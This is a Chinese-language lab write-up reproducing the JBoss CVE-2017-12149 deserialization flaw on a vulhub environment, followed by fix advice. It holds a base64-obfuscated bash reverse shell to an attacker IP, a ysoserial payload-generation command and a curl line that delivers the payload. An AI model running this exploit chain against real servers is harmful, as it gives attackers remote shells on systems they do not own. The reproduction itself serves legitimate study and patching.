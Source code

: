 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

### 0x00 简介

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

### 0x01 环境搭建

使用vulhub搭建环境`jboss/CVE-2017-12149`

![image-20230412153049744](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153049744.png)

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

### 0x02 复现步骤

1、访问`http://your_ip:8080/invoker/readonly`出现以下界面说明漏洞存在

![image-20230412162405781](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412162405781.png)

2、反弹shell命令

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

3、生成序列化数据

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
```

4、将生成的序列化数据发送至/invoker/readonly，获取shell

```shell
curl http://192.168.12.130:8080/invoker/readonly --data-binary @poc.ser
```

![image-20230412164228245](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412164228245.png)

### 0x03 修复建议

1、删除http-invoker.sar组件，路径如下jboss-6.1.0.Final\server\default\deploy\http-invoker.sar

2、升级JBoss到最新版本。

